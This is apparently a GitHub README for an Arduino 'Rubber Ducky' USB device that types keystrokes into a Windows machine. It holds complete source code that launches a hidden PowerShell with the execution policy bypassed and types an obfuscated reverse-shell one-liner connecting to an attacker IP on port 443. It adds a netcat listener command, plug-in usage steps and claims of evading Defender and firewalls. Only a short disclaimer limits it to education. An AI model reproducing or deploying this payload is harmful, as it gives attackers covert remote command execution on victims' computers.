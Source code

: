 
# Rubber Ducky Arduino Script

This Arduino script transforms your device into a Rubber Ducky that exploits a security vulnerability not yet patched by Microsoft. When executed, it establishes a reverse shell that can bypass firewalls, advanced endpoint monitoring systems, and Microsoft Defender. If configured to use port 443, firewalls interpret the outgoing connection as a secure SSL connection, even though it's actually a reverse shell.

## Features

- Bypasses firewalls and endpoint monitoring systems.
- Evades Microsoft Defender.
- Mimics a secure SSL connection when using port 443.
- Executes a reverse shell from PowerShell.

## Technical Explanation

This script leverages the `Keyboard.h` library to simulate keyboard inputs, effectively typing out commands as if a user were physically typing them. Here’s how it works:

1. **PowerShell Execution**: The script opens PowerShell using the `Windows + R` command to bring up the Run dialog and then types `powershell -NoP -NonI -W Hidden -Exec Bypass`. 

   - `-NoP`: Stands for No Profile. This parameter prevents PowerShell from loading the user's profile, reducing execution time.
   - `-NonI`: Stands for Non-Interactive. This parameter starts PowerShell in non-interactive mode, which is suitable for running scripts.
   - `-W Hidden`: This parameter launches PowerShell in a hidden window, making the execution invisible to the user. The PowerShell window runs in the background without appearing on the desktop.
   - `-Exec Bypass`: This parameter bypasses the PowerShell execution policy, allowing scripts to run without restrictions. This is crucial for executing potentially restricted or untrusted scripts.

2. **Reverse Shell**: The script types a PowerShell command to create a reverse TCP connection to a specified IP address and port. It sends the following command:

   ```powershell
   $c=nEw-oBjECt SYstEm.NEt.SOcKEts.TCPClIEnt("172.18.219.63",443);$s=$c.GetSTreAm();[byte[]]$b=0..65535|%{0};whILe(($i=$s.REad($b,0,$b.LeNgTh))-ne 0){;$d=(NEw-OBjeCT -TYpeNamE sYsTeM.TeXt.ASCIIEncoding).GetStRIng($b,0,$i);$z=(ieX $d 2>&1|oUt-STriNG);$x=$z+"RD "+(pwd)+"#";$y=([text.encoding]::ASCII).GEtByTEs($x);$s.WrIte($y,0,$y.LEnGTh);$s.FlUSh()};$c.CloSE()
   ```

   - This command creates a new TCP client connection to the attacker's IP (`172.18.219.63`) on port `443`.
   - It establishes a stream to send and receive data, effectively creating a shell on the target machine that the attacker can control remotely.

3. **Simulating Keyboard Input**: The Arduino simulates keyboard input using the `Keyboard.print()` and `Keyboard.press()` functions to type out the entire PowerShell command, making it appear as though it was typed by a real user, but invisibly.

## Configuration

Before using this script, you need to make the following configurations:

1. **Adapt Keyboard Layout**: Change `KeyboardLayout_es_ES` in the code if you're not using a Spanish keyboard layout. Adjust it to match your keyboard's country layout, for example, `KeyboardLayout_us` for a US English keyboard.

2. **Configure IP and Port**: Change the IP address `"172.18.219.63"` and port `443` in the script to match the IP and port of your listening machine.

3. **Start Listening**: Before running the script, ensure you are in listening mode on the configured IP and port. This can be done using tools like `netcat`:

   ```bash
   nc -lvnp 443
   ```

## Usage

1. Upload the script to your Arduino device.
2. Plug the device into a USB port on the target machine.
3. The script will execute a sequence that opens PowerShell and establishes a reverse shell back to your listening machine.

**Warning!**: This script is for educational and security research purposes only. Do not use it for malicious activities or without the explicit consent of the target system's owner. Misuse of this script could be illegal.

## Code

```cpp
#include "Keyboard.h"
void typeKey(int key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}

/* Init function */
void setup()
{
  // Beginning the Keyboard stream
  Keyboard.begin(KeyboardLayout_es_ES);

  // Wait 500ms
  delay(500);

  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  Keyboard.releaseAll();

  delay(100);
  Keyboard.print("powershell -NoP -NonI -W Hidden -Exec Bypass");
  delay(100);
  
  typeKey(KEY_RETURN);
  delay(1500);
  
  Keyboard.print("$c=nEw-oBjECt SYstEm.NEt.SOcKEts.TCPClIEnt("172.18.219.63",443);$s=$c.GetSTreAm();[byte[]]$b=0..65535|%{0};whILe(($i=$");
  delay(100);
  
  Keyboard.print("s.REad($b,0,$b.LeNgTh))-ne 0){;$d=(NEw-OBjeCT -TYpeNamE sYsTeM.TeXt.ASCIIEncoding).GetStRIng($b,0,$i);$z=(ieX $d 2>&1|oU");
  delay(100);
  
  Keyboard.print("t-STriNG);$x=$z+"RD "+(pwd)+"#";$y=([text.encoding]::ASCII).GEtByTEs($x);$s.WrIte($y,0,$y.LEnGTh);$s.FlUSh()};$c.CloSE()");
  delay(100);
  
  typeKey(KEY_RETURN);

  // Ending stream
  Keyboard.end();
}

/* Unused endless loop */
void loop() {}
```

## Note

This script has been tested in a controlled environment and has proven effective in evading some of the most common security measures. However, there are always risks associated with the use of offensive security tools. Use this script at your own risk and responsibility.


